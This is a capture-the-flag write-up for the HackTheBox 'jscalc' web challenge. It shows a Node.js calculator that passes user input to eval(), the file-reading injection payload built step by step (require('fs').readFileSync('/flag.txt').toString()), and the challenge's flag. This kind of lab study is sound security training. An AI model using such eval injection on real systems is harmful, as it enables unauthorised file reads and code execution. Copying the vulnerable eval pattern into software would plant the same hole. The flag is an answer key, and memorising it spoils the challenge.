 # Workshop

### HackTheBox | Web Challenge | Easy

**jscalc (js eval function exploitation)**

Download files + start instance on HTB

Put provided ip into browser and brings you a web page with this:

![Untitled](Untitled.png)

### some yap about eval() function I found online:

[https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)

eval() is js function that evaluates a string input

[https://dev.to/caffiendkitten/the-evil-javascript-eval-28ig](https://dev.to/caffiendkitten/the-evil-javascript-eval-28ig)

![Untitled](Untitled%201.png)

[https://medium.com/r3d-buck3t/eval-console-log-rce-warning-be68e92c3090](https://medium.com/r3d-buck3t/eval-console-log-rce-warning-be68e92c3090)

![Untitled](Untitled%202.png)

w3schools is NOT a fan of eval()

![image.png](image.png)

### Back to the actual writeup:

click ‘calculate’ button and capture request in burpsuite

see variable ‘formula’ is being entered 

![image.png](image%201.png)

see this variable declared in index.js

shows that the main calculator function is called from the file calculatorHelper.js

```markdown
const Calculator = require('../helpers/calculatorHelper');
```

calculatorHelper.js

```markdown
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

see ‘formula’ variable that was sent through request in burpsuite

this is the section which uses the eval() function to evaluate what is entered as the ‘formula’ on the website: 

```markdown
return eval(`(function() { return ${ formula } ;}())`);
```

try to use fs.readFileSync to read flag.txt file (fs = File System):

[https://www.geeksforgeeks.org/node-js-fs-readfilesync-method/](https://www.geeksforgeeks.org/node-js-fs-readfilesync-method/)

```jsx
fs.readFileSync('flag.txt');
```

![Untitled](Untitled%203.png)

doesn’t return anything (only thing that doesn’t return some form of output)

use require() function for ‘fs’ instead of individually:

[https://www.w3schools.com/nodejs/nodejs_filesystem.asp](https://www.w3schools.com/nodejs/nodejs_filesystem.asp)

```jsx
require('fs').readFileSync('/flag.txt');
```

![Untitled](Untitled%204.png)

returns an object instead of an output-able string

need to convert to string

```jsx
require('fs').readFileSync('/flag.txt').toString();
```

![Untitled](Untitled%205.png)

gives you flag

```jsx
HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}
```